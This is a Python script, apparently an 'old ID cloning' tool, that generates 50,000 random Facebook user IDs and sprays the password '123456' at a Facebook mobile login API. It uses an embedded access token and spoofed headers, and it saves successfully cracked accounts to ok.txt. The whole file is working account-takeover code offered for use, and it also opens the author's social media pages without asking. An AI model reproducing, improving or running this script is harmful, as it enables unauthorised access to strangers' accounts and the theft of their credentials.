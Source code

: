 W = '\033[97;1m' 
R = '\033[91;1m' 
G = '\033[92;1m' 
Y = '\033[93;1m' 
B = '\033[94;1m'
P = '\033[95;1m'
C = '\033[96;1m'
N = '\x1b[0m'
 
 
 
import os
try:
	import requests
except ImportError:
	os.system("pip install requests")
 
try:
	import concurrent.futures
except ImportError:
	os.system("pip install futures")
 
import os
import sys
import time
import requests
import random
import platform
import base64
import subprocess
from concurrent.futures import ThreadPoolExecutor

logo0 = '''
\033[1;33;40m--------------------------------------------------
✨M─────AH💠AD─────I✨
 just-another-nobody
 \033[1;33;40m--------------------------------------------------
'''



logo = ''' 
\033[1;33;40m--------------------------------------------------
✨M─────AH💠AD─────I✨
 just-another-nobody
 Old Id Cloning
 \033[1;33;40m--------------------------------------------------
                                                
\033[1;33;40m--------------------------------------------------
  \033[1;36;40mAuthor     \033[1;33;40m: \033[0;37;40mjust-another-nobody
  \033[1;36;40mGitHub     \033[1;33;40m: \033[0;37;40mhttps://github.com/just-another-nobody
  \033[1;36;40mFacebook   \033[1;33;40m: \033[0;37;40mhttps://Facebook.com/just-another-nobody
  \033[1;36;40mPublic     \033[1;33;40m: \033[0;37;40m18-03-2023
\033[1;33;40m--------------------------------------------------


                                '''

import os
os.system('clear')

print(logo0)
muser = input('\t\033[1;33;40m[\033[1;31;40m?\033[1;33;40m] \033[1;32;40mEnter Your User Name \033[1;33;40m>>>\033[1;32;40m ')
 
def runtxt(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)
 
 
plist = (platform.uname())[2]
basex = plist
basex1 = basex.encode('ascii')
basex2 = base64.b64encode(basex1)
basex3 = basex2.decode('ascii')
base4 = (basex3).upper()
basesplit = base4.replace('=', 'X').replace('A', '3').replace('B', '9').replace('C', '7').replace('D', '1').replace('E', '4').replace('M', '2').replace('L', '6').replace('F', '8').replace('N', 'E').replace('T', '8')
 
 
class Main:
	def __init__(self):
		self.id = []
		self.ok = []
		self.cp = []
		self.loop = 0
		os.system('xdg-open https://www.facebook.com/just-another-nobody')
		os.system("clear")
		
		print (logo)
		print("   \033[1;32;40mRandom Old Id Cloning \033[1;33;40m [\033[1;31;40m123456\033[1;33;40m] \033[1;33;40m [\033[1;31;40m5000\033[1;33;40m]\n\n   \033[1;33;40m[\033[1;31;40m1\033[1;33;40m] \033[1;32;40mStart \n   \033[1;33;40m[\033[1;31;40m2\033[1;33;40m] \033[1;32;40mExit \n")
		tanya = input("\t\033[1;33;40m[\033[1;31;40m!\033[1;33;40m] \033[1;32;40mEnter \033[1;33;40m>>>\033[1;31;40m ")
		if tanya in ["", " "]:
			Main()
		elif tanya in ["1", "01"]:
				    self.fbtua()
	
	def fbtua(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		limit = 50000
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			os.system('xdg-open https://github.com/11111')
			os.system('clear')
			print(logo)
			logo2 = '''\033[1;33;40m--------------------------------------------------
\033[1;32;40m[-_-] Please wait__
[-_-] Total : 50000
[-_-] Lets Start Hunting
\033[1;33;40m--------------------------------------------------
\033[1;32;40mHacked Accouny Will Appear Here
			
			'''
			print(logo2) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				listpass = '123456'
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(R))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n    [#] CRACK COMPLETE...")
		except Exception as e:exit(str(e))
 
	def api(self, uid, pwx):
		ua = random.choice(muser)
		sys.stdout.write(
			"\r\r %s[>_] [BY] : %s/%s -> \033[0;92m [ OK:%s ]- \033[0;91m[CP:%s ]"%(B,self.loop, len(self.id), len(self.ok), len(self.cp))
		); sys.stdout.flush()
		for pw in pwx:
			pw = pw.lower()
			ses = requests.Session()
			headers = {
				"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
				"x-fb-sim-hni": str(random.randint(20000, 40000)), 
				"x-fb-net-hni": str(random.randint(20000, 40000)), 
				"x-fb-connection-quality": "EXCELLENT",
				"x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
				"user-agent": ua, 
				"content-type": "application/x-www-form-urlencoded", 
				"x-fb-http-engine": "Liger"
			}
			response = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers) 
			if "session_key" in response.text and "EAAA" in response.text:
				print("\r  \033[0;92m   [OK] %s | %s\033[0;97m         "%(uid, pw))
				self.ok.append("%s|%s"%(uid, pw))
				open("ok.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			elif "www.facebook.com" in response.json()["error_msg"]:
				print("\r  \033[0;91m   [CP] %s | %s\033[0;97m         "%(uid, pw))
				self.cp.append("%s|%s"%(uid, pw))
				open("cp.txt","a").write("  * --> %s|%s\n"%(uid, pw))
				break
			else:
				continue
 
		self.loop +=1
 
if len(sys.argv) == 2:
	if sys.argv[1] == "--info":
		print("   ___________________  ")
		print("\n [*] Author    : just-another-nobody")
		print(" [*] Team      : xyz  \n")
		print(" [ Sosial Media  ] \n")
		print(" [*] Facebook  : https://www.facebook.com/just-another-nobody ")
		exit(" [*] GitHub    : https://github.com/just-another-nobody")
	else:
		Main()
 
try:Main()
except Exception as e:exit(str(e))
